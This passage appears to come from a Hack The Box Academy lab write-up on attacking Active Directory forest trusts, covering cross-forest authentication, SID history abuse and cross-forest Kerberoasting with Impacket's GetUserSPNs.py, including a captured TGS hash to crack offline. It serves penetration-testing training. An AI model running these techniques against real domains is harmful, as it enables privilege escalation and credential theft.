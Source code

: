 ###### From the command output above, we can see that we successfully authenticated to the Domain Controller in the FREIGHTLOGISTICS.LOCAL domain using the Administrator account from the INLANEFREIGHT.LOCAL domain across the bidirectional forest trust. This can be a quick win after taking control of a domain and is always worth checking for if a bidirectional forest trust situation is present during an assessment and the second forest is in-scope.
## SID History Abuse - Cross Forest
###### If SID filtering is disabled across a forest trust, an account in Forest B can inherit privileged SIDs from Forest A via SIDHistory, allowing it to retain or gain admin rights in Forest A — effectively enabling cross-forest privilege escalation.

# Attacking Domain Trusts - Cross-Forest Trust Abuse - from Linux
## Cross-Forest Kerberoasting
## Using GetUserSPNs.py

```bash
Yashfren@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never> 
```
###### Rerunning the command with the -request flag added gives us the TGS ticket. We could also add -outputfile </OUTPUT FILE> to output directly into a file that we could then turn around and run Hashcat against.
## Using the -request Flag

```bash
Yashfren@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>   
        
$krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>
```

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all